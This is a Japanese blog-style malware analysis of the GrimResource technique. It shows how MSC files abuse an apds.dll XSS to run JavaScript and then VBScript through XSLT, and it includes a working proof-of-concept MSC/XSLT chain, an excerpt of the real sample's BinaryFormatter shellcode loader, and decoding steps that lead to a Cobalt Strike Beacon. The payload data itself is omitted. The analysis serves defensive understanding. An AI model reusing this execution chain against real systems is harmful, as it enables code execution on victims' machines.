

# GrimResource攻撃についての分析

マルウェア添付メールの新しい手法として、GrimResource攻撃というものが報告されました。  
https://www.elastic.co/security-labs/grimresource

この攻撃は、MSCファイルというWindowsの管理コンソール用のファイルを使った攻撃です。実際の検体は以下ですね。  
https://www.virustotal.com/gui/file/14bcb7196143fd2b800385e9b32cfacd837007b0face71a73b546b53310258bb/community

## 何が悪用されるのか

MSCファイルは内部的にはXMLです。  
そこで、「apds.dll」が持つXSS脆弱性を悪用し、任意のJavaScriptを実行します。
さらにXSSは通常ブラウザで実行された場合は、ブラウザ内での挙動のみですが、「[DotNetToJScript](https://github.com/tyranid/DotNetToJScript)」を使うことで、dotnetアセンブリをロードするJSが作れます。これを仕込むことでメモリ上で実行させるコードが作れます。  

ちなみにJavaScriptを色々見ていくと、以下でも使われているVBSでシェルコードを実行するための機能が使われていました。  
https://github.com/mdsecactivebreach/CACTUSTORCH/blob/master/CACTUSTORCH.vbs


## 解説
### テストスクリプトで動作を確認

まず、MSCファイルには以下の様にjavascriptが仕込めます。以下は該当の場所だけ抜粋しています。  

```xml
<?xml version="1.0"?><MMC_ConsoleFile ConsoleVersion="3.0" ProgramMode="UserSDI">
  <StringTables>
    <StringTable>
      <Strings>
        <String ID="39" Refs="1">res://apds.dll/redirect.html?target=javascript:eval("alert('GRIMRESOURCE')")</String>
      </Strings>
    </StringTable>
  </StringTables>
</MMC_ConsoleFile>
```

実際に実行すると以下の様に表示されます。


プロセスとしてはmmc.exeのようですね。


さて、次はjavascriptからvbsを呼び出す実際の検体と同じ動きをさせてみます。  
試すVBScriptコードは、以下にします。  
Cドライブ直下にExampleFile.txtが作成されたら成功です。

```vbscript
Dim objFSO
Set objFSO = CreateObject("Scripting.FileSystemObject")
Dim objFile
Set objFile = objFSO.CreateTextFile("C:\ExampleFile.txt", True)
objFile.WriteLine("writefiles")
objFile.Close
```

このコードを以下の様にXMLのms:scriptに仕込みます。

```xml
<?xml version='1.0'?>
<stylesheet
    xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
    xmlns:user="placeholder"
    version="1.0">
    <output method="text"/>
    <ms:script implements-prefix="user" language="VBScript"><![CDATA[Dim objFSO
Set objFSO = CreateObject("Scripting.FileSystemObject")
Dim objFile
Set objFile = objFSO.CreateTextFile("C:\ExampleFile.txt", True)
objFile.WriteLine("writefiles")
objFile.Close
]]></ms:script>
</stylesheet>
```

これをURLエンコードして、以下の様にJavaScript上でロードするようにします。

```javascript
<String ID="8" Refs="2">// Console Root
    var scopeNamespace = external.Document.ScopeNamespace;
    var rootNode = scopeNamespace.GetRoot()
    var mainNode = scopeNamespace.GetChild(rootNode)
    var docNode = scopeNamespace.GetNext(mainNode)

    external.Document.ActiveView.ActiveScopeNode = docNode
    docObject = external.Document.ActiveView.ControlObject
    external.Document.ActiveView.ActiveScopeNode = mainNode

    var XML = docObject;
    XML.async = false
    var xsl = XML;
    xsl.loadXML(unescape("urlencode-text")) // ここにURL
    XML.transformNode(xsl)
</String>
<String ID="23" Refs="2">Document</String>
<String ID="24" Refs="1">{2933BF90-7B36-11D2-B20E-00C04F983E60}</String>
<String ID="38" Refs="2">Main</String>
<String ID="39" Refs="1">res://apds.dll/redirect.html?target=javascript:eval(external.Document.ScopeNamespace.GetRoot().Name)</String>
```

これで実行すると、以下の様にファイルが作成されました。


書き込みプロセスを確認すると、この場合でもmmc.exeによって実行されるようです。


### 実際の攻撃コードを見てみる

上に書いてきたものと同じ方式でVBScriptが実行されます。  
重要なのは、VBScriptの中身がどうなっているかですね。これは見る限り以下のシェルコードを実行する方法がとられています。

https://github.com/mdsecactivebreach/CACTUSTORCH/blob/master/CACTUSTORCH.vbs


正直、書いてある内容を全て説明するときりがないので、細かい点は「[malicous.vbs](./malicous.vbs)」をご覧ください。  

重要な点としては、以下で攻撃コードが実行されています。

```vb
Dim Xuxzl
Xuxzl = "..." ' very big strings

Dim launcher
Set launcher = CreateObject("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter")
launcher.Deserialize_2(shellcodeDecryptor(Xuxzl, 37317))
```

また、以下の様にProcess環境変数をセットしているため、恐らく攻撃コードが実行された後、このデータを取得して悪用すると思われます。  
(Process環境変数にセットしておけば、子プロセスなどでも読み取り可能です)

```vb
Dim iICMct
Set iICMct = ws.Environment("Process")

iICMct.Item("B_1") = "...B_1..."
' snip B_2 to B_447
iICMct.Item("B_448") = "...B_448..."
```
Note: ちなみにどちらも本体となるデータは悪性のため割愛しています。

Xuxzlについては、以下の処理を加えることでbase64になります。  

1. スペースを削除
2. 文字列を逆転
3. 4の倍数になるように末尾に"="を必要な数だけ追加

これを実際にしたうえで、base64デコードした結果が以下です。



また、Process環境変数に指定したファイルはデコードすると、どうやらPEファイルのようです。  


これを実際に保存するとどうやらCobalt Stirke Beaconのようです。  
sha256: c1bba723f79282dceed4b8c40123c72a5dfcf4e3ff7dd48db8cb6c8772b60b88
https://www.virustotal.com/gui/file/c1bba723f79282dceed4b8c40123c72a5dfcf4e3ff7dd48db8cb6c8772b60b88


以上です。

